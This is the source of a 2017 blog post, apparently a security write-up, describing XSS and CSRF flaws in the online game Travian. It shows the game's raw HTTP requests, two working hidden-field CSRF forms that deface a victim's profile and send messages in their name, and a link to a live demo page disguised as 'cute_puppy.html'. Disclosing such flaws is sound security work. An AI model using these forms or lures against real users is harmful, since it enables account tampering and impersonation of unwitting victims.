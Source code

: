 ```yaml
---
layout: post
title:  "Hacking Travian Profiles (CSRF)"
date:   2017-02-11
tags:
- CSRF
- Hacking
- Web
- Security
- Travian
- HTTP
categories: jekyll update
---
```


I detected multiple XSS and CSRF vulnerabilities in [Travian](http://travian.com/){:target="_blank"} (Online game).

- The in-game messaging system of Travian did not espace {}<>'" and, when sending messages to other users, I could embed malicious JS code in messages, Which got executed upon opening
- "Edit profile" was not CSRF-protected
- "Send message" was not CSRF-protected

Here are how HTTP requests looked like:


HTTP request to send message in Travian (summarized):

    POST /messages.php?t=1 HTTP/1.1
    Host: ts1.travian.com
    Cookie: <cookie data>
    Connection: close
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 37

    an=odysseus&be=subject1&message=body1


HTTP request to edit profile in Travian (summarized):

    POST /spieler.php HTTP/1.1
    Host: ts1.travian.com
    Cookie: ...
    Connection: close
    Content-Type: application/x-www-form-urlencoded

    e=2&uid=19948&did=73537&tag=&monat=0&jahr=&mw=1&ort=hi&be1=test1&be2=test2&dname%5B73537%5D%3D=Ithaca&s1=Save

Surprisingly, none of `did` or `uid` were checked to protect against CSRF. I could easily setup a web page, and send a link to other users that upon opening:

- A message was sent on their behalf to another user
- Their profile info was modified (by me)

Forms to simulate the HTTP requets:

Hack user profile:

```html
    <form id="hackprofile" method="POST" action="http://ts1.travian.com/spieler.php">
        <input type="hidden" name="ort" value="Your profile has been hacked. Please delete your profile">
        <input type="hidden" name="be1" value="Your profile has been hacked. Please delete your profile">
        <input type="hidden" name="be2" value="Your profile has been hacked. Please delete your profile">
        <input type="hidden" name="e" value="2">
        <input type="hidden" name="mw" value="1">
        <input type="hidden" name="s1" value="Save">
    </form>
```

Send message on behalf of user:

```html
<form id="msg" method="POST" action="http://ts1.travian.com/messages.php?t=1">
    <input type="hidden" name="an" value="odysseus">
    <input type="hidden" name="be" value="Test">
    <input type="hidden" name="message" value="Hi">
</form>
```

screnshots:

![Travian user profile](/images/travian-hack1.png){:width="300"}

![Travian sent messages](/images/travian-hack2.png){:width="300"}


Live demo can be viewed [here](/html/exploits/travian_hack/cute_puppy.html){:target="_blank"} (Works only if you are logged into [t1.travian.com](t1.travian.com)).

